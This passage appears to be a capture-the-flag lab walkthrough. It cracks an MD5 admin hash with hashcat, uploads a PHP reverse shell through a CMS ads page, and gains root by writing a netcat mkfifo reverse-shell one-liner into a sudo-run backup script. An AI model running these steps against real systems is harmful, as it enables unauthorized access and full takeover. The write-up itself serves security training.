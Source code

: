 This hash with MD5 encrypt.

Hash the password use **Hashcat**

`hashcat -m 0 [textfile] [wordlist]`

<img src="https://user-images.githubusercontent.com/67650329/195096746-bd600cc0-c60c-46ed-a749-7e993e14e15a.png" width="500px" align="center">

And you got the password.

Login into website use the password `/content/as`.

Go to the Dashboard -> Ads.

Use the [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Copy it and Change the IP and PORT.

And before you run the listener like `netcat`.

`http://[IP]/content/inc/ads/[Name_Shell].php`

<img src="https://user-images.githubusercontent.com/67650329/195097785-ae0d58a8-c1e0-4a2d-bdc7-b26b5b5b0df2.png" width="500px" align="center">

User.txt on /home/itguy

<img src="https://user-images.githubusercontent.com/67650329/195098079-a5a87e85-2b78-4887-a928-670a7baf1742.png" width="300px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/195098128-5b2a8ff8-f682-4ff0-8f7f-c6ae2f002b40.png" width="300px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/195098422-4fb3b24f-ec93-4b5c-9d43-bc79a2250f23.png" width="500px" align="center">

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f" > /etc/copy.sh`

`sudo /usr/bin/perl /home/itguy/backup.pl`

<img src="https://user-images.githubusercontent.com/67650329/195098607-53bc35d4-43b0-49b9-8b7d-f8380e97eafa.png" width="300px" align="center">

---
